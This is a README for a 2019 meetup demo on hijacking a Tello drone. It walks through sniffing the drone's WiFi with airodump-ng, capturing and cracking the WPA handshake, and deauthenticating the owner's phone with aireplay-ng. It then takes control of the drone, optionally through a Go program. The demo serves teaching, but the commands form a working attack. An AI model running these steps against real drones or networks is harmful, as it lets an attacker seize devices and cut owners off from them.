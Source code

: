 # Girl Geek Dinners Oslo drone hacking demo code
Demo code and presentation for Girl Geek Dinners in Oslo February 4th 2019.

## Preparations

You need:

1. A laptop with Kali Linux
2. A network adapter that supports packet injection
3. A mobile phone with the Tello app

This github repo contains some files that will help you in the demo, but it is not a prerequisite to download it.

In order to program the drone (if you want that, this is optional, see step 6 below) you'll need the Go programming language and the Gobot framework (https://gobot.io):

```
git clone https://github.com/transcendent-group/ggd.git
apt install golang
cd ggd
go get -d -u gobot.io/x/gobot/...
```

## Demo walkthrough

### Step 1: Sniff and find the drone’s WiFi network

Begin by listing wireless interfaces that support monitor mode with:

```
airmon-ng
```

If you do not see an interface listed then your wireless card does not support monitor mode.

If it does, make sure that other interfering processes are killed:

`airmon-ng check kill`

You should see output similar to this:

```
root@kali:~/ggd# airmon-ng check kill

Killing these processes:

  PID Name
  868 wpa_supplicant
```

Then list out the wireless interfaces you have with `iwconfig, you should see output similar to this:

```
root@kali:~/ggd# iwconfig
eth0      no wireless extensions.

lo        no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
```

We will assume your wireless interface name is `wlan0`:

```
airmon-ng start wlan0
```

This may create a new interface that is named something else, so be sure to check with `iwconfig` to use the correct interface name for the rest of the demo.

Then scan the networks:

```
root@kali:~/ggd# airodump-ng wlan0

 CH  3 ][ Elapsed: 1 min ][ 2019-02-03 09:50                                       
                                                                                                                                                             
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                             
 70:85:C6:9C:BC:3E   -1   0        0        0    0   3  -1                    <length:  0>                                                                   
 D8:FE:E3:DD:5F:8A   -1   0        0        0    0   3  -1                    <length:  0>                                                                   
 60:60:1F:D4:21:28  -18 100      266    29646   47   3  54e. WPA2 CCMP   PSK  TELLO-D42128                                                                   
 80:37:73:BD:B5:42  -80   0        0        1    0   3  -1   WPA              <length:  0>                                                                    
 08:86:3B:B9:53:CA   -1   0        0        0    0   3  -1                    <length:  0>                                                                    
                                                                    
                                                                                                                                                              
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                    
                                                                                                                                                                                                                                         
 60:60:1F:D4:21:28  D4:61:9D:EE:49:2F  -32   54e-54e  5993    30022  TELLO-D42128                                                                                              
```

Look for the network called `TELLO-D42128`, and make note of the `BSSID` (the Tello drone wifi access point MAC address), channel number and `STATION` (the controller's MAC address):
 In the above, these are:

* WiFi channel: `3`
* Tello drone MAC address: `60:60:1F:D4:21:28`
* Controller (iPhone) MAC address: `D4:61:9D:EE:49:2F`

### Step 2: Capture a handshake

Stop listening on all channels, and set the right channel:

```
airmon-ng stop wlan0
airmon-ng start wlan0 3
```

Sniff the airwaves for a handshake:

```
airodump-ng -c 3 -b 60:60:1F:D4:21:28 -w ggd wlan0
```

You should see a that a WPA handshake has been captured after a while in the right topmost corner of the terminal window:

```
CH  8 ][ Elapsed: 12 s ][ 2019-02-03 10:03 ][ WPA handshake: 60:60:1F:D4:21:28  
```

### Step 3: Crack the handshake and obtain WiFi password

```
aircrack-ng ggd-01.cap -w passwords.txt
```

### Step 4: Deauthenticate me

Deauthenticate the iPhone controller:

```
aireplay-ng --deauth 0 -a 60:60:1F:D4:21:28 -c D4:61:9D:EE:49:2F wlan0
```

### Step 5: Hijack the drone!

Keep the above command running, and connect to the `TELLO-D42128` network with the password from step 3. Start the Tello app on your phone, and takeoff!

### Step 6 (optional): Connect to the drone from you laptop and program it to do some sweet flips

Open a text editor and insert the correct password in the `wpa_supplicant.conf` file.

Then disable monitor mode, and start wpa_supplicant:

```
airmon-ng stop wlan0
wpa_supplicant -i wlan0 -c wpa_supplicant.conf -D nl80211
```

In another terminal window check that you are connected, and ask for an IP:

```
iwconfig
dhclient wlan0
```

Then compile and run:

```
go build hijack.go
./hijack
```




